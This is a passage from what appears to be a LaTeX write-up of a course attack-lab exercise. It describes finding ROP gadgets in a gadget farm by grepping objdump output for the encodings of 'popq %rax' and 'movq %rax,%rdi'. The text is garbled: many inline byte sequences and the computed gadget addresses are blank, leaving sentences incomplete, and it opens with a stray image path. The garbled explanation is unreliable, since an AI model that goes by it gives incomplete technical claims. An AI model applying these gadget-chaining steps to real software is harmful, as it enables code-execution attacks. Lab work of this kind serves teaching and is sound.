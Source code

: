 \begin{enumerate}
  \item Pop the top of the stack into the \texttt{\%rax} register. This instruction is encoded as ~\cite[p. 10]{attacklab-pdf}, and I found two viable gadgets as follows:
    \begin{verbatim}
      $ grep '58' farm.objdump
        4028cf:       c7 07 a1 58 c3 0a       movl   $0xac358a1,(%rdi)
        4028ef:       b8 58 90 90 c3          mov    $0xc3909058,%eax
      0000000000402913 <addval_358>:
        402958:       c7 07 81 c1 08 c0       movl   $0xc008c181,(%rdi)
        4029ce:       b8 58 89 e0 90          mov    $0x90e08958,%eax
    \end{verbatim}
    Line 2 shows the sequence , which encodes \texttt{popq \%rax} followed by . There is another gadget on line 3 with the sequence , which is \texttt{popq \%rax}, , , and then . Both are equally viable, but I used the first one.

    The  sequence starts at the 4th byte after  --- thus the gadget address becomes .

  \item Copy the contents of register \texttt{\%rax} into register \texttt{\%rdi} (because \texttt{\%rdi} holds the first argument to a function). This instruction is encoded as the multibyte sequence ~\cite[p. 10]{attacklab-pdf}. A usable gadget can be found as follows:

    \begin{verbatim}
      $ grep '48 89 c7' -A 1 farm.objdump
        4028a4:       8d 87 4c 48 89 c7       lea    -0x3876b7b4(%rdi),%eax
        4028aa:       c3                      retq
      --
        4028da:       c7 07 48 89 c7 91       movl   $0x91c78948,(%rdi)
        4028e0:       c3                      retq
      --
        4028e5:       b8 75 48 89 c7          mov    $0xc7894875,%eax
        4028ea:       c3                      retq
    \end{verbatim}

    Across lines 8 and 9, the byte sequence  appears, which encodes \texttt{movq \%rax,\%rdi} and then . I used this gadget, but it also appears on lines 2-3. The address of the gadget becomes .
\end{enumerate}

